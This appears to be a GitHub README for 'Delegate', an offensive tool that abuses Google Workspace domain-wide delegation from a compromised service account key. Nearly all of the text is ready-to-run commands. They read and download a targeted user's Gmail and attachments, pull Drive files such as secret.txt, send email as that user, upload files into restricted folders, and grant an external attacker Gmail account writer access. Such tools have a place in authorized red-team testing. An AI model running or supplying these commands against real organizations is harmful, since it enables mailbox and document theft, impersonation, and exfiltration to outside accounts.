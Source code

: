 # Delegate
Tool to perform GCP Domain Wide Delegation abuse and access Gmail and Drive data from a compromised Service Account with domain wide delegation permissions configured within Google Workspace.

<img src="./Images/DomainWideDelegation_GCP.png" alt="gcpdelegation" width="800"/>

## Delegate tool usage
### Gmail usage
List all Gmail emails (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a list
```

Read Gmail emails (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a read
```

List Gmail folders (Labels)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a folders
```

Download all attachments within the targeted Gmail (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a attachments
```

Read all emails within specified folder (Labels) (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a read -f DRAFT
```

Send an email as targeted.delegated@mackinsoncloud.com to jdoe@gmail.com specifying subject and body email content
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a send -r jdoe@gmail.com -s "Test Messaage subject" -c "Hello this is a test email"
```

### Drive usage

List all files and folders within the targeted Drive account
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a list
```

List all folders content within the targeted Drive account
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a folders
```

Download locally a specific file secret.txt
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a download -t secret.txt
```

Upload files at user's Drive root folder (My Drive)
```
python3 delegate.py -k <serviceaccount_key> -m drive -a upload -i <targeted_Workspace_user> -t <localfile> -p <NameInDrive>
python3 delegate.py -k ../sa_key.json -m drive -a upload -i targeted.delegated@mackinsoncloud.com -t test.txt -p uploadedTest.txt
```

Upload files within specific user's Drive folder or organizational Shared Drive
```
python3 delegate.py -k <serviceaccount_key> -m drive -a upload -i <targeted_Workspace_user> -t <localfile> -p <NameInDrive> -f <DriveFolder>
python3 delegate.py -k ../sa_key.json -m drive -a upload -i targeted.delegated@mackinsoncloud.com -t test.txt -p uploadedTest.txt -f Restricted_documents
```

Modify permissions on specific folder (Add external Gmail account with Writer permissions over the file/folder)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a permissions -t Restricted_documents -e attackeremail@gmail.com
```

Modify permissions on specific file (Add external Gmail account with Writer permissions over the file/folder)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a permissions -t secrets.txt -e attackeremail@gmail.com
```